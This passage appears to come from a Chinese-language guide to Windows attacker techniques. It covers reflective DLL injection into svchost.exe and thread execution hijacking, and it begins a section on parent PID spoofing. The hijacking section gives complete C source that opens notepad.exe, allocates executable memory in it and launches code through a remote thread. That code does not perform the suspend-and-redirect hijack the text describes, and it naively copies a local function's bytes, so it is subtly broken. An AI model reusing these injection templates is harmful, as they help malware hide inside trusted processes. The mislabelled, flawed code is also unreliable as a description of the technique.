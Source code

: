   * 

    
    
    reflective_injector.exe svchost.exe malicious.dll

https://github.com/stephenfewer/ReflectiveDLLInjection

 **9\. 线程执行劫持(Hijacking)**

 **说明:  **线程执行劫持(Thread Execution
Hijacking)是一种攻击者在进程中挂起线程并修改其指令指针(通常是x86架构上的EIP寄存器)以指向恶意代码的技术。一旦线程被恢复，它将执行恶意代码。

 **流程:**  找到svchost.exe线程 -> 挂起目标线程 -> 获取线程上下文 -> 将执行更改为恶意代码 -> 恢复线程 ->
svchost线程执行恶意代码

  * 

    
    
    hijack.exe svchost.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    // Simple payload that shows a message boxvoid payload() {    MessageBox(NULL, "Thread hijacked!", "Payload", MB_OK);    ExitThread(0); // Exit the thread after executing the payload}  
    int main() {    DWORD processId = 0;    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);    PROCESSENTRY32 pe;    pe.dwSize = sizeof(PROCESSENTRY32);  
        // Find the process ID of notepad.exe    if (Process32First(hSnapshot, &pe)) {        do {            if (strcmp(pe.szExeFile, "notepad.exe") == 0) {                processId = pe.th32ProcessID;                break;            }        } while (Process32Next(hSnapshot, &pe));    }    CloseHandle(hSnapshot);  
        if (processId == 0) {        printf("notepad.exe not found.\n");        return 1;    }  
        // Open the target process    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);    if (!hProcess) {        printf("Failed to open target process.\n");        return 1;    }  
        // Allocate memory in the target process for our payload    LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, 1024, MEM_COMMIT, PAGE_EXECUTE_READWRITE);    if (!pRemoteCode) {        printf("Memory allocation failed.\n");        CloseHandle(hProcess);        return 1;    }  
        // Write our payload to the target process    WriteProcessMemory(hProcess, pRemoteCode, payload, 1024, NULL);  
        // Create a thread in the target process to execute our payload    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);    if (!hThread) {        printf("Thread creation failed.\n");        VirtualFreeEx(hProcess, pRemoteCode, 0, MEM_RELEASE);        CloseHandle(hProcess);        return 1;    }  
        // Wait for the remote thread to finish    WaitForSingleObject(hThread, INFINITE);  
        // Cleanup    VirtualFreeEx(hProcess, pRemoteCode, 0, MEM_RELEASE);    CloseHandle(hThread);    CloseHandle(hProcess);  
        return 0;}

 **10\. 父进程** **欺骗(Parent PID Spoofing)**

 **说明:
**父进程ID(PPID)欺骗是一种攻击者使用与实际进程不同的父进程启动进程的技术。这可以用来绕过安全检查，因为某些安全解决方案可能信任特定受信任父进程的子进程。
